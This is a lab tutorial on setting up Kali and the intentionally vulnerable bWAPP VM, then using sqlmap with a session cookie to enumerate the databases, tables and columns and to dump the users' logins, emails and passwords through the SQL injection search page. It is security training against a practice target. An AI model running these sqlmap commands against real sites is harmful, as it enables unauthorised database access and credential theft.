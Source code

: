 # Kali + bWAPP

1. install Kali and bWAPP vm in virtual box;

      ![](/assets/virtualbox-2-vm)

   2. launch bWAP and make sure it is running;

     ![](/assets/bWAPP-from-vm)

  3. Launch Kali and make sure you can access the bWAPP from Iceweasel.

![](/assets/acces-bWAPP-from-kali)

  4. Go to SQL Injection \(GET/Search\)

![](/assets/sql-get)

5. key in a search string; copy of the resulted URL;![](/assets/search-box)

6. Find out the cookie for the site;

![](/assets/get-cookie-pref)

![](/assets/get-cookie-id)

Now, it is show time; launch SQLmap from terminal;

**step1 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" --dbs

![](/assets/s1)

**step2 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_--tables

![](/assets/s2)

**step3 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D _**bWAPP **_-T _**users **_--columns

![](/assets/s3)

**step4 **root@kali:~\# sqlmap -u "[http://192.168.56.101/bWAPP/sqli\_1.php?title=](http://192.168.56.101/bWAPP/sqli_1.php?title=)" --

cookie="PHPSESSID=a9bd3686d9c53a3a8c0842c8886b564b;security\_level=0" -D bWAPP -T users -C** login,email,password** --dump

![](/assets/s4)

